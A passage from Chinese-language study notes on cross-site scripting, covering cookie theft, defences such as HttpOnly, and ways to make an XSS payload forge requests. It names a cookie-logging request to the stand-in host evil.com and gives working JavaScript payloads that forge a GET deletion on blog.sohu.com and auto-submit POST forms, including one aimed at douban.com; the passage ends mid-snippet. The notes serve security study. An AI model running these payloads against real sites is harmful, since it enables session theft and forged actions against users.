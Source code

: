                     ```
                * 真正的XSS Payload写在这个远程脚本中，避免直接在URL的参数里写入大量的JavaScript代码。
                * 事实上，http://www.evil.com/log 并 __不一定要存在__ ，因为这个请求会在远程服务器的Web日志中留下记录
                    ```
                    127.0.0.1 - - [19/Jul/2010:11:30:42 +0800] "GET /log?cookie1%3D1234 HTTP/1.1" 404 288
                    ```
            + __防止__ “Cookie劫持”
                * 在Set-Cookie时给关键Cookie植入HttpOnly标识
                * 把Cookie与客户端IP绑定
        - 强大的XSS Payload
            + 构造GET与POST请求
                * GET
                    ```
                    var img = document.createElement("img");
                    img.src = "http://blog.sohu.com/manage/entry.do?m=delete&id=156713012";
                    document.body.appendChild(img);
                    ```
                * POST
                    - `ck=JiUY&mb_text=testtesttest`
                        + form表单自动提交
                            * 构造DOM节点
                                ```
                                var f = document.createElement("form");
                                f.action = "";
                                f.method = "post";
                                document.body.appendChild(f);

                                var i1 = document.createElement("input");
                                i1.name = " ck";
                                i1.value = " JiUY";
                                f.appendChild(i1);

                                var i2 = document.createElement("input");
                                i2.name = " mb_text";
                                i2.value = "testtesttest";
                                f.appendChild(i2);

                                f.submit();
                                ```
                            * 直接写HTML代码
                                ```
                                var dd = document.createElement("div");
                                document.body.appendChild(dd);
                                dd.innerHTML = '<form action="" method="post" id="xssform" name="mbform">'+
                                  '<input type="hidden" value="JiUY" name="ck" />'+
                                  '<input type="text" value="testtesttest" name="mb_text" />'+
                                  '</form>'

                                document.getElementById("xssform").submit();
                                ```
                        + XMLHttpRequest发送一个POST请求
                            ```
                            var url = "https://www.douban.com";    
                            var postStr = "ck=JiUY&mb_text=test1234";
